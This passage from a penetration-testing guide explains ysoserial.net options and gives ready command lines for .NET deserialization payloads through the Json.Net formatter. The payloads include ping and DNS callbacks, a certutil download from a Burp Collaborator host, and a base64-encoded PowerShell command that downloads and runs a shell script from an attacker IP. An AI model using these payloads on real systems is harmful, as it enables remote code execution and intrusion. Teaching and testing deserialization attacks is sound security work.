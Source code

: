 #### More ysoserial.net parameters

* `--minify` will provide a **smaller payload** (if possible)
* `--raf -f Json.Net -c "anything"` This will indicate all the gadgets that can be used with a provided formatter (`Json.Net` in this case)
* `--sf xml` you can **indicate a gadget** (`-g`)and ysoserial.net will search for formatters containing "xml" (case insensitive)

**ysoserial examples** to create exploits:

```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
##Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
##Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```

**ysoserial.net** has also a **very interesting parameter** that helps to understand better how every exploit works: `--test`\
If you indicates this parameter **ysoserial.net** will **try** the **exploit locally,** so you can test if your payload will work correctly.\
This parameter is helpful because if you review the code you will find chucks of code like the following one (from [ObjectDataProviderGenerator.cs](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Generators/ObjectDataProviderGenerator.cs#L208)):

```java
            if (inputArgs.Test)
                {
                    try
                    {
                        SerializersHelper.JsonNet_deserialize(payload);
                    }
                    catch (Exception err)
                    {
                        Debugging.ShowErrors(inputArgs, err);
                    }
                }
```
